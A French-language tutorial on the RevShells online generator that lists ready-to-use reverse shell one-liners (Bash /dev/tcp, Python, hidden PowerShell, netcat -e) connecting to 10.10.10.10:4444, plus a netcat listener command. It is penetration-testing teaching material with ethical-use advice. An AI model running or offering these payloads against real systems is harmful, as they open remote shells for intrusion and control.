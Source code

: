 # Shells et Reverse Shells

#### **Tuto RevShells : Générateur de Reverse Shells en ligne**

RevShells est un outil en ligne qui aide à générer des commandes de reverse shells adaptées à différents environnements et langages. Il est particulièrement utile pour les tests de pénétration ou les exercices de cybersécurité.

***

#### **Fonctionnalités principales :**

* Génération rapide de commandes de reverse shells compatibles avec divers langages (Bash, Python, PHP, PowerShell, etc.).
* Paramétrage simple avec l'adresse IP et le port cible.
* Options pour des shells spécifiques comme Netcat, Socat, Perl, Ruby, ou encore Java.
* Affichage des configurations nécessaires sur la machine d'écoute.

***

#### **Comment utiliser RevShells :**

1. **Accéder au site :**
   * Rendez-vous sur [RevShells](https://www.revshells.com/).
2. **Configurer les paramètres :**
   * **IP** : Entrez l'adresse IP de votre machine attaquante (celle où le shell se connectera).
   * **Port** : Indiquez le port que votre machine écoutera pour la connexion entrante.
3. **Choisir le type de shell :**
   * RevShells propose une liste complète de reverse shells parmi les plus courants :
     * **Bash** : Pour les environnements Linux/Unix.
     * **Netcat** : Une solution rapide si Netcat est disponible.
     * **Python/Perl/Ruby** : Pour les systèmes ayant ces interpréteurs.
     * **PHP** : Utile pour les serveurs web.
     * **PowerShell** : Pour les systèmes Windows.
     * **Socat** : Pour un reverse shell plus robuste.
     * **Java** : Pour des environnements basés sur Java.
   * Cliquez sur le shell souhaité pour générer la commande correspondante.
4. **Copier la commande générée :**
   * La commande adaptée à votre configuration est affichée. Vous pouvez la copier pour l'utiliser sur la machine cible.
5. **Configurer l'écouteur sur votre machine :**
   * RevShells fournit également la commande à exécuter sur votre machine pour écouter les connexions entrantes.
   *   Exemple avec Netcat :

       ```bash
       nc -lvnp [PORT]
       ```
   * Lancez cette commande avant d'exécuter le shell généré sur la machine cible.

***

#### **Exemples de commandes générées :**

**1. Bash Reverse Shell :**

```bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

**2. Python Reverse Shell :**

```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

**3. PowerShell Reverse Shell :**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length)};$client.Close()
```

**4. Netcat Reverse Shell :**

```bash
nc -e /bin/bash 10.10.10.10 4444
```

***

#### **Bonnes pratiques :**

* **Test en environnement contrôlé** : Utilisez toujours les reverse shells dans un environnement d'apprentissage ou autorisé.
* **Configurer le pare-feu local** : Assurez-vous que le port spécifié est ouvert sur votre machine attaquante.
* **Évitez les abus** : RevShells est conçu pour des tests éthiques et éducatifs uniquement.

